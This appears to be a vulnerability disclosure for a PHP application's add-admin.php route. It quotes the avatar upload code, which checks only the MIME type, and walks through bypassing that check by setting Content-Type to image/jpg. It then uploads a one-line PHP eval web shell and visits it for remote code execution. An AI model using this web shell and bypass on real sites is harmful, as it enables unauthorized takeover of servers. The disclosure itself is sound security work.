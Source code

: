 User can be added under the `add-admin.php` route，and there are any pictures to upload

![image-20250401224104067](https://bu.dusays.com/2025/04/01/67ebfdd86e2d8.png)

Locate L28-L40 of add-admin.php source code

```
$file_type = $_FILES['avatar']['type']; //returns the mimetype
$allowed = array("image/jpg", "image/gif","image/jpeg", "image/webp","image/png");
if(!in_array($file_type, $allowed)) {
$_SESSION['error'] ='Only jpg,jpeg,Webp, gif, and png files are allowed. ';

// exit();

}else{
$image= addslashes(file_get_contents($_FILES['avatar']['tmp_name']));
$image_name= addslashes($_FILES['avatar']['name']);
$image_size= getimagesize($_FILES['avatar']['tmp_name']);
move_uploaded_file($_FILES["avatar"]["tmp_name"],"uploadImage/" . $_FILES["avatar"]["name"]);			
$location="uploadImage/" . $_FILES["avatar"]["name"];
```

You can see that only the MIME type of the uploaded file is detected, and the uploaded file is placed in the `uploadImage` directory. Capture the packet and change `Content-Type` to `image/jpg` to bypass it. You can fill in other information as you like. The email address must comply with the regulations, such as 1@qq.com, and upload 1.php

```
GIF89a
<?= @eval($_POST[1]);?>
```

![image-20250401195430147](https://bu.dusays.com/2025/04/01/67ebfde2e4acd.png)

Visit `uploadImage/1.php` to rce

![image-20250401195604897](https://bu.dusays.com/2025/04/01/67ebfdec36b8e.png)